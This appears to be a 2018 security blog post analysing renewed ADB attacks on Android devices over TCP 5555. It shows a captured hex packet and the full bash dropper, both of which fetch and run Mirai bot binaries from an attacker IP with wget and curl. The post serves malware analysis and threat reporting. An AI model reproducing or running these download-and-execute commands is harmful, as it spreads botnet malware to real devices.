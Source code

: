 ```yaml
---
title: "ADB Shell Attacks"
#author: "Author Name"
description: "Fresh attacks against TCP 5555, a few days after the last ones died out."
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-07-16T00:00:00-00:00
draft: false
---
```


On 10 July some [new reports](https://telekomsecurity.github.io/2018/07/adb-botnet.html) of fresh attacks against TCP 5555 came out.  These attacks died out quickly as the download server died out.  Telekom Security reported the abuse to the cloud service provider, temporarily halting infections.

Now, it's back!  New download site, new download site, same attack.

```xxd
434e584e000000010010000007000000 CNXN............
32020000bcb1a7b1686f73743a3a004f 2.......host::.O
50454e5802000000000000f200000017 PENX............
4a0000b0afbab17368656c6c3a3e2f73 J......shell:>/s
64636172642f446f776e6c6f61642f66 dcard/Download/f
202626206364202f7364636172642f44  && cd /sdcard/D
6f776e6c6f61642f3b203e2f6465762f ownload/; >/dev/
66202626206364202f6465762f3b203e f && cd /dev/; >
2f646174612f6c6f63616c2f746d702f /data/local/tmp/
66202626206364202f646174612f6c6f f && cd /data/lo
63616c2f746d702f3b2062757379626f cal/tmp/; busybo
78207767657420687474703a2f2f3138 x wget hxxp://18
352e36322e3138392e3134392f616462 5.62.189.149/adb
73202d4f202d3e20616462733b207368 s -O -> adbs; sh
20616462733b206375726c2068747470  adbs; curl hxxp
3a2f2f3138352e36322e3138392e3134 ://185.62.189.14
392f6164627332203e2061646273323b 9/adbs2 > adbs2;
2073682061646273323b20726d206164  sh adbs2; rm ad
627320616462733200               bs adbs2.
```

About 111 unique IPs sent the above data to TCP 5555, showing that in a short time this inspection has become widespread.

The initial script downloaded is nearly the same as what Telekom Security found:

```bash
#!/bin/sh

n="arm7.bot.le i686.bot.le mips.bot.be mipsel.bot.le"
#n="arm.bot.le arm4.bot.le arm7.bot.le mips.bot.be mipsel.bot.le i686.bot.le i586.bot.le x86_64.bot.le"
http_server="185.62.189.149"

for a in $n
do
    cp /system/bin/sh .f
    >.f
    curl http://$http_server/adbb/$a > .f
    chmod 777 .f
    ./.f yItDitb2HvayJvNc
done

for a in $n
do
    rm $a
done
```

Virus Total is fairly certain the binaries are a variant of Mirai.

